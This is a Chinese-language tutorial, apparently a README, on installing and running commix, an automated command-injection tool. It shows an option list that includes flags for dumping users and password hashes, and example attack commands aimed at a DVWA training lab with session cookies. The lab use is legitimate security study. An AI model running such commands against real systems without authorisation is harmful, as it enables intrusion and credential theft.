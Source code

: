 Command Injection
=
安装方法
-
在https://github.com/commixproject/commix/releases下下载commix压缩包，直接解压即可(由于新版v2.4出现了问题，v2.2经尝试可行)

使用说明
-
### 基本要素
commix.py –url=”” –data=”” –cookie=””
commix.py为打开我们的commix脚本，其次还需要输入对应的攻击网址url，data与cookie的相关数据
### 更多用法
    Options:
      -h, --help            Show help and exit.
    Target:
      -u URL, --url=URL     Target URL.
    Request:
      -d DATA, --data=..    Data string to be sent through POST.
      --host=HOST           HTTP Host header.
      --referer=REFERER     HTTP Referer header.
      --user-agent=AGENT    HTTP User-Agent header.
      --cookie=COOKIE       HTTP Cookie header.
      --cookie-del=CDEL     Set character for splitting cookie values.
    Enumeration:
      --all               Retrieve everything.
      --sys-info          Retrieve system information.
      --users             Retrieve system users.
      --passwords         Retrieve system users password hashes.
      --privileges        Retrieve system users privileges.
      --ps-version        Retrieve PowerShell's version number.
      Detection:
      --level=LEVEL       Level of tests to perform (1-3, Default: 1).
更多用法请见https://github.com/commixproject/commix/wiki/Usage， https://tools.kali.org/exploitation-tools/commix

###示例
DVWA
root@kali:~/commix# python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=127.0.0.1&Submit=Submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"
更多示例请见https://github.com/commixproject/commix/wiki/Usage-Examples， https://tools.kali.org/exploitation-tools/commix

- source: https://tools.kali.org/exploitation-tools/commix
```
root@speit-PowerEdge-T430:/home/speit/Downloads/commix-2.1-20171003# python commix.py --url http://192.168.5.100/vulnerabilities/exec/ --data="ip=INJECT_HERE&Submit=Submit" --cookie="security=low; PHPSESSID=upjio7inblkt07rte0eagcg045"
```
